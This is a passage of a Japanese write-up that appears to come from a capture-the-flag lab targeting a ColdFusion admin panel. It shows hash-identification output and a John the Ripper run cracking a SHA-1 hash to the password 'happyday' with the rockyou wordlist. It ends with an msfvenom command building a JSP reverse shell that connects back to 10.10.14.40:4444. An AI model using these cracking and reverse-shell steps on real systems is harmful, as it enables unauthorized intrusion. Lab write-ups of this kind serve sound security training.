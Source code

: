 ```shell

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))

Least Possible Hashs:
[+] Tiger-160
[+] Haval-160
[+] RipeMD-160
[+] SHA-1(HMAC)
[+] Tiger-160(HMAC)
[+] RipeMD-160(HMAC)
[+] Haval-160(HMAC)
[+] SHA-1(MaNGOS)
[+] SHA-1(MaNGOS2)
[+] sha1($pass.$salt)
[+] sha1($salt.$pass)
[+] sha1($salt.md5($pass))
[+] sha1($salt.md5($pass).$salt)
[+] sha1($salt.sha1($pass))
[+] sha1($salt.sha1($salt.sha1($pass)))
[+] sha1($username.$pass)
[+] sha1($username.$pass.$salt)
[+] sha1(md5($pass))
[+] sha1(md5($pass).$salt)
[+] sha1(md5(sha1($pass)))
[+] sha1(sha1($pass))
[+] sha1(sha1($pass).$salt)
[+] sha1(sha1($pass).substr($pass,0,3))
[+] sha1(sha1($salt.$pass))
[+] sha1(sha1(sha1($pass)))
[+] sha1(strtolower($username).$pass)
--------------------------------------------------
```

### John the ripperでパスワードを抽出します。happydayというパスワードです。このパスワードをCloudFusionの管理画面に入力してログインします。
```shell
$ john --format=raw-sha1  --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)
1g 0:00:00:00 DONE (2022-05-13 08:34) 100.0g/s 512000p/s 512000c/s 512000C/s jodie..babygrl
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

### JSPのリバースシェルを作成します。
```shell
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.40 LPORT=4444 -f raw > exploit.jsp
Payload size: 1497 bytes
```
